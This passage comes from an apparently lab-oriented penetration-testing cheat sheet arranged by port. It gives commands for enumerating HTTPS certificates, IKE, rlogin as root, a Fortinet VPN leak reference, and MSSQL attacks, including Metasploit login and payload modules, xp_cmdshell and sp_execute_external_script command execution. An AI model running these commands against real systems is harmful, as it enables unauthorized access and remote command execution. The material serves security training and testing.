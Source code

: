 ## Port 443 - HTTPS

Read the actual SSL CERT to:

* find out potential correct vhost to GET
* is the clock skewed
* any names that could be usernames for bruteforce/guessing.

```bash
./testssl.sh -e -E -f -p  -S -P -c -H -U TARGET-HOST > OUTPUT-FILE.html
# Check for mod_ssl,OpenSSL version Openfuck
```

## Port 500 - ISAKMP IKE

```
ike-scan 10.11.1.111
```

## Port 513 - Rlogin

```
apt install rsh-client
rlogin -l root 10.11.1.111
```

## Port 541 - FortiNet SSLVPN

[Fortinet Ports Guide](https://help.fortinet.com/fos50hlp/54/Content/FortiOS/fortigate-ports-and-protocols-54/Images/FortiGate.png)

[SSL VPN Leak](https://opensecurity.global/forums/topic/181-fortinet-ssl-vpn-vulnerability-from-may-2019-being-exploited-in-wild/?\_\_cf\_chl\_jschl\_tk\_\_=42e37b31a0585f7dae3dbce18cafde7c39b81976-1578385705-0-AcuYzrPMO1OuMo59JSPYyzZjiXNbMAIl6sKiXwhQRbMUMZq1Kp3VmWqIVXWZdzTZgFCecXue1Z6xXxU-Rql\_GT\_ovKiar\_-i0CUCKFS85bfNXnUzuOuIwomXje-kH87mNbVHzzh9ediRfVWbJjwtO-ttLEYi7quczLlHQk38UqcumrARs77RrK2mj9zOb8Uwhv6av4QZ9od4fgAIl-F4Kff26MPQjs4LRHsgk5zH6RVwFMP8NdOnCrrzkkGH6\_R9Dtw89\_QtiOsH1nKB0hBDbtJ2O9AkkMDqw7tl1ip\_pVDfnw1lvaZtFq1sRqgYwpan-n6n9f58Xdjcj2UGFKdE32OS7Ete8X7RwXUV9FGUSOhAM5\_iK0kMNJg3mskrFVQz0lONaZVvFRdf\_1rp69J4oRVat1m7KIQEGpRDe4OvYUb7pfQkNKLcK5s\_lVIj2SAJQQ)

## Port 1433 - MSSQL

```bash
nmap -p 1433 -sU --script=ms-sql-info.nse 10.11.1.111
use auxiliary/scanner/mssql/mssql_ping
use auxiliary/scanner/mssql/mssql_login
use exploit/windows/mssql/mssql_payload
sqsh -S 10.11.1.111 -U sa
    xp_cmdshell 'date'
      go


EXEC sp_execute_external_script @language = N'Python', @script = N'import os;os.system("whoami")'

https://blog.netspi.com/hacking-sql-server-procedures-part-4-enumerating-domain-accounts/
```
